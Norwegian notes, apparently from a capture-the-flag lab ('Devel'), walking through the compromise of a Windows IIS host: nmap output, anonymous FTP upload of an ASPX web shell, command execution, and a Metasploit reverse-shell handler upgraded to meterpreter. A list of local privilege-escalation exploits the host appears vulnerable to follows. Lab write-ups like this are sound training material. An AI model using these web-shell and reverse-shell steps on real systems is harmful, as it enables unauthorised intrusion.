 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn ftp med anonymous. masse filer. last ned alt med `mget * .` og login med -i som fjerner prompts

http kjører iis7

laster opp et aspx shell [https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)

[http://10.10.10.5](http://10.10.10.5/myshell.aspx)/sh.aspx

kan her kjøre kommandoer. /c net user

User accounts for \

Administrator            babis                    Guest

The command completed with one or more errors.

/c whoami

iis apppool\web

fikk shell med [https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/](https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/)

prøve å escalata nå da

windows 7 6.1 build 7600

oppgradere fra nc til metasploit til meterpreter

* use mutli/handler

* set LHOST attack-machine

* set LPORT port-as-appropraite

* set payload windows/shell/reverse\_tcp

* exploit'

background session med ctrl z&lt;

use post/multi/manage/shell\_to\_meterpreter

\[+\] 10.10.10.5 - exploit/windows/local/bypassuac\_eventvwr: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_015\_kitrap0d: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms10\_092\_schelevator: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_053\_schlamperei: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms13\_081\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms14\_058\_track\_popup\_menu: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_004\_tswbproxy: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms15\_051\_client\_copy\_image: The target appears to be vulnerable.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_016\_webdav: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc: The target service is running, but could not be validated.

\[+\] 10.10.10.5 - exploit/windows/local/ppr\_flatten\_rec: The target appears to be vulnerable.



